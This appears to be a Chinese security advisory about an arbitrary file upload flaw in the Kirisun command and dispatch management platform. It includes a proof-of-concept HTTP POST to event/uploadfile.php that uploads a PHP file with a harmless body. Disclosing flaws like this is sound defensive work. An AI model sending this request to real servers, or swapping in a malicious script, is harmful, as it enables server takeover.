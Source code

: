 #  漏洞预警 | 福建科立讯指挥调度管理平台任意文件上传漏洞   
浅安  浅安安全   2024-08-17 08:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
科立讯指挥调度管理平台是一个专业针对通信行业的管理平台。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SXtAPtWzrWO4iaJicvAtMDHxcfMWHHfOcVhhf7RUE3an34WauQoP4TzP3kOewSicckIrkDKHHmFGEicvw/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
任意  
文件  
上传  
  
**影响：**  
接管服务器  
  
**简述：**  
科立讯指挥调度管理平台的event/uploadfile.php接口存在任意文件上传漏洞，攻击者可通过该漏洞上传恶意脚本，进而接管服务器。  
###   
  
**0x04 影响版本**  
- 科立讯指挥调度管理平台  
  
**0x05****POC**  
```
POST /api/client/event/uploadfile.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data;boundary=----xxxxxxxx
 
------xxxxxxxx
Content-Disposition: form-data; name="uploadfile"; filename="test.php"
Content-Type: image/jpeg
 
hahaha,this is event uploadfile.
------xxxxxxxx--
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.kirisun.com.cn/  
  
  
  
